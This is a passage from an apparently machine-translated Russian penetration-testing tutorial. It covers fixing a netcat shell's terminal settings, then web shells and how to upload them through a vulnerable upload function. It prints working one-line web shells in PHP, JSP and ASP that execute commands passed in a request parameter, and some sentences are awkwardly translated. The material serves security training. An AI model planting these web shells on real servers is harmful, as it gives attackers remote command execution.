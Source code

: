Первая команда показала нам `TERM` переменная, а вторая показывает нам значения для `rows` и `columns`, соответственно. Теперь, когда у нас есть переменные, мы можем вернуться к нашему `netcat` оболочки и используйте следующую команду, чтобы исправить их:

Типы снарядов

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Как только мы это сделаем, у нас должен быть `netcat` оболочка, которая использует все функции терминала, как и SSH-соединение.

---

## Web Shell

Последний тип оболочки, которую мы имеем, — это `Web Shell`. А `Web Shell` обычно это веб-скрипт, т.е. `PHP` или `ASPX`, который принимает нашу команду через параметры HTTP-запроса, такие как `GET` или `POST` параметры запроса, выполняет нашу команду и печатает ее вывод обратно на веб-страницу.

---
#### Writing a Web Shell

Прежде всего, нам нужно написать нашу веб-оболочку, которая бы пропускала нашу команду через `GET`запросите, выполните его и распечатайте выходные данные обратно. Сценарий веб-оболочки обычно представляет собой однострочный файл, который очень короткий и легко запоминается. Ниже приведены некоторые распространенные короткие сценарии веб-оболочки для распространенных веб-языков:

Код: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Код: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Код: асп

```asp
<% eval request("cmd") %>
```

---

#### Uploading a Web Shell

Когда у нас есть веб-оболочка, нам нужно поместить сценарий веб-оболочки в веб-каталог удаленного хоста (webroot), чтобы выполнить сценарий через веб-браузер. Это может произойти из-за уязвимости в функции загрузки, которая позволяет нам записать одну из наших оболочек в файл, т.е. `shell.php` и загрузите его, а затем получите доступ к нашему загруженному файлу для выполнения команд.
